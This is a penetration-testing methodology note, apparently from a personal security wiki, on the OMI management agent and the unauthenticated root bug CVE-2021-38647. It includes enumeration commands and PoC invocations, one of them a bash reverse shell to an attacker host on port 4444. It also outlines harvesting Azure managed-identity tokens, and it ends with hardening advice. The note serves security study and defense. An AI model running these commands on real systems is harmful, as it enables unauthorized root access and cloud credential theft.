

# 83 - OMI (Ports 5985/5986) Pentesting

## 1. Executive Summary

OMI (Open Management Infrastructure) is a management agent (the Linux equivalent of WMI/WinRM) auto-deployed by many **Azure** Linux services (Log Analytics, Automation, etc.), listening on **5985 (HTTP)** and **5986 (HTTPS)**. Its infamous flaw is **CVE-2021-38647 ("OMIGOD")**: sending an `ExecuteShellCommand` SOAP request **with no Authentication header** makes OMI run the command **as root** — trivial, unauthenticated, remote root. Because OMI was silently bundled into Azure agents, huge numbers of Linux VMs were exposed. One request = root.

## 2. Protocol Overview & Architecture

OMI exposes a WS-Management/SOAP endpoint over HTTP(S). The bug: when a request arrives **without** an authentication header, OMI's logic treats it as a privileged local request and processes it anyway — so an attacker simply omits auth and invokes the `ExecuteShellCommand` method in the `SCX_OperatingSystem` class. The daemon runs as root, so the command does too.

## 3. Enumeration & Footprinting

```bash
nmap -sV -p 5985,5986 <IP>
# Distinguish OMI from WinRM (also 5985/5986): OMI banner/SCX, Linux host
curl -s -k https://<IP>:5986/wsman -H "Content-Type: application/soap+xml;charset=UTF-8" -d @probe.xml
```

## 4. Exploitation Deep Dive

### 4.1 OMIGOD — CVE-2021-38647 (unauth root RCE)
Send the SOAP `ExecuteShellCommand` with **no auth header**:
```bash
python3 CVE-2021-38647.py -t <IP> -p 5986 -c 'id'           # horizon3ai PoC
# returns: uid=0(root) ...
python3 CVE-2021-38647.py -t <IP> -p 5986 -c 'bash -c "bash -i >& /dev/tcp/<ATT>/4444 0>&1"'
```
The crafted SOAP body invokes `SCX_OperatingSystem.ExecuteShellCommand`; OMI executes as root.

### 4.2 Related OMI Privesc CVEs
The OMIGOD set also includes local privesc CVEs (2021-38648/49/45) — if you have a low-priv shell on the host, OMI can elevate to root.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Instant root on the VM.
- Harvest Azure managed-identity tokens / agent credentials → pivot into the cloud subscription.
- Persistence + lateral movement.

## 7. Defense & Hardening
1. **Patch OMI to ≥1.6.8.1** (fixes CVE-2021-38647) — update the Azure agents that bundle it.
2. Don't expose 5985/5986 publicly; firewall to management hosts only.
3. Remove OMI if unused; restrict managed-identity scope.
4. Monitor for unauthenticated WS-Man `ExecuteShellCommand`.

## 8. Chaining Opportunities
- Root → Azure managed identity → **Cloud and Container Security**.
- Distinguish from **[[22 - WinRM (Ports 5985-5986) Pentesting]]** (same ports, Windows).

## 9. Related Notes
- [[22 - WinRM (Ports 5985-5986) Pentesting]]
- [[84 - AFP (Port 548) Pentesting]]

## 10. Tools
horizon3ai CVE-2021-38647 PoC, `curl`, `nmap`.
